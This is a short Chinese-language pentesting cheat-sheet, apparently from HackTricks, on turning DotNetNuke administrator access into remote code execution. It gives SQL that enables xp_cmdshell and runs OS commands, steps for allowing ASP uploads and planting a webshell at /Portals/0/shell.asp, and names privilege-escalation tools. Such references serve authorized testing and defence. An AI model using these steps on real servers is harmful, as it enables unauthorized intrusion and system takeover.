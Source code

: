 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

如果您以 **administrator** 身份登录 DNN，获取 RCE 非常简单。

## RCE

### 通过 SQL

在 **`Settings`** 页面下可以访问 SQL 控制台，您可以启用 **`xp_cmdshell`** 并 **运行操作系统命令**。

使用以下行来启用 **`xp_cmdshell`**：
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
然后，按 **"Run Script"** 运行该 SQL 语句。

接着，使用以下内容运行 OS 命令：
```sql
xp_cmdshell 'whoami'
```
### 通过 ASP webshell

在 `Settings -> Security -> More -> More Security Settings` 中，您可以在 `Allowable File Extensions` 下 **添加新的允许扩展名**，然后点击 `Save` 按钮。

添加 **`asp`** 或 **`aspx`**，然后在 **`/admin/file-management`** 上传一个名为 `shell.asp` 的 **asp webshell**。

然后访问 **`/Portals/0/shell.asp`** 以访问您的 webshell。

### 权限提升

您可以使用 **Potatoes** 或 **PrintSpoofer** 例如 **提升权限**。&#x20;

{{#include ../../banners/hacktricks-training.md}}
